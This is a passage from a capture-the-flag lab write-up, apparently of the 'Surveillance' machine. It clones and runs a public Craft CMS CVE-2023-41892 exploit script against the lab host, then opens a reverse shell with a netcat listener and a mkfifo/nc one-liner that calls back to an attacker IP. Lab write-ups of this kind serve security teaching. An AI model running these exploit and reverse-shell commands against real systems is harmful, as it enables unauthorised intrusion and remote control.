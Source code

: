 Next, download the payload from GitHub and execute the exploit script as follows:

```terminal
sudo git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892
cd CraftCMS_CVE-2023-41892
python3 craft-cms.py http://surveillance.htb/
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20034201.png?raw=true)

I attempted to execute some commands, but they were ineffective. Therefore, I decided to establish a reverse shell to my machine for better control and interaction.

Attack machine:
```terminal
nc -lvnp 4444
```

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20035336.png?raw=true)


Target machines:
```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f
```

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20035325.png?raw=true)
